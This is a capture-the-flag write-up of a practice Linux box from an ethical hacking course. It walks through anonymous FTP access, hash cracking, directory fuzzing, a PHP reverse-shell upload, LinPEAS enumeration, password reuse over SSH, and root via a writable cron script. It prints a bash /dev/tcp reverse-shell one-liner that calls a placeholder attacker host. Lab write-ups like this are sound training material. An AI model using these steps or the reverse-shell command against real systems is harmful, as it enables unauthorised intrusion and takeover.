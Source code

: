 # 🏫 Academy - Practical Ethical Hacking Mid-Course Capstone (Linux Box)

## 🔍 Reconnaissance

**Target IP**: `192.168.88.133`

Started with a classic `nmap` scan:

![image](https://github.com/user-attachments/assets/2f8dec70-6897-42ad-bae1-2a28c5f37b0c)

* Port **21 (FTP)** open
* **Anonymous login** allowed
* File spotted: `note.txt`
  FTP is just handing out files like free candy. So...

---

## 📁 FTP Fun Time

Connected via anonymous FTP and downloaded `note.txt`.

![image](https://github.com/user-attachments/assets/9ace84c2-1fd4-4b58-a225-5565fc0073a2)

![image](https://github.com/user-attachments/assets/4b6a8d89-ffa3-48dc-8fce-e73f0cbcd742)

Contents included:

* An **MD5 hash**
* A **student registration number**
* A note saying students log in with this registration number

The hash was quickly identified using `hash-identifier`:

![image](https://github.com/user-attachments/assets/7a1ce910-5330-413d-b4d1-95dd342f653c)

Ran it through [crackstation.net](https://crackstation.net) — password is **`student`**. So now we have:

* **Username**: 10201321
* **Password**: `student`

---

## 🕵️‍♂️ Web Recon

Time to find where these creds are useful. Enter `ffuf`.

```bash
ffuf -u http://192.168.88.133/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

![image](https://github.com/user-attachments/assets/ac8323ad-5fe0-42c0-852b-1fa6789ea537)

Discovered:

* `/academy`
* `/phpmyadmin`
* `/server-status`

Tried logging into `/academy` with creds. And boom 💥 — it worked.

---

## 📸 Upload Feature = Shell Time?

While poking around, noticed the **photo upload** feature on the student registration page:

![image](https://github.com/user-attachments/assets/5bca14a4-f80f-4143-bb80-f071d4962ebe)

Apache server? Sounds like it's ready for a **PHP reverse shell**.

1. Used [Pentestmonkey’s reverse shell](https://github.com/pentestmonkey/php-reverse-shell)
2. Modified it to point to my Kali machine
3. Set up a Netcat listener on port 1234
4. Uploaded the payload

Got a shell as `www-data`. Hello, low-priv shell.

![image](https://github.com/user-attachments/assets/9fb3ab93-7c5a-4fa5-97d5-bfcaf942f5cb)

---

## 🔧 Privilege Escalation

Time to level up. Enter **LINPEAS**.

1. Downloaded it onto my Kali box
2. Hosted it with a Python HTTP server
3. Grabbed it from the target with `wget`
4. Ran it — lots of output, but one juicy nugget stood out: `backup.sh`

![image](https://github.com/user-attachments/assets/d1d61518-816b-4cea-ab0b-eb9f24537173)
![image](https://github.com/user-attachments/assets/11bbb580-a758-477a-8f8d-27aa7ca8444a)
![image](https://github.com/user-attachments/assets/f2c73614-75fe-4c80-9cf2-5acad0b94f4f)

Also dumped `/etc/passwd` for user context:

![image](https://github.com/user-attachments/assets/b6e439b7-4ca4-495e-a754-d98869155b44)

The `grimmie` user stood out. Tried SSH with the found password — and it worked!

![image](https://github.com/user-attachments/assets/95ddd5ce-520f-463f-9601-bc10a0d641d1)

---

## 🎯 Root Access via Scheduled Script

Inside `/home/grimmie`, we find the infamous `backup.sh`:

```bash
#!/bin/bash
rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
```

Weirdly, `crontab -l` gave me nothing. Time to escalate recon with **pspy**.

1. Downloaded [pspy](https://github.com/DominicBreuker/pspy)
2. Ran it on the box

Boom — saw `backup.sh` running **every minute**, likely as **root**.

![image](https://github.com/user-attachments/assets/1d5edc33-0ca6-49ce-bdfa-da03e2eed9a2)

So I rewrote `backup.sh` with a one-liner reverse shell:

```bash
bash -i >& /dev/tcp/<my-ip>/8080 0>&1
```

Listener on port 8080 — and within a minute...

ROOTED. 🎉

![image](https://github.com/user-attachments/assets/5cbdbed9-20dd-4223-8cda-82c83a0faa35)

---

## 🧠 Lessons Learned

* Anonymous FTP is the red carpet of CTFs.
* Developers still trusting file uploads in 2025 — love to see it.
* Scheduled scripts owned by root and editable by users? That’s just handing over the crown.

---

## 🧰 Tools Used

* `nmap`
* `ftp`
* `ffuf`
* `crackstation.net`
* `hash-identifier`
* `netcat`
* `LINPEAS`
* `pspy`

---

## 🏁 Flag Captured

Root shell achieved, lesson learned, and another notch in the CTF belt.
On to the next one — let’s keep hacking like it’s finals week.

---
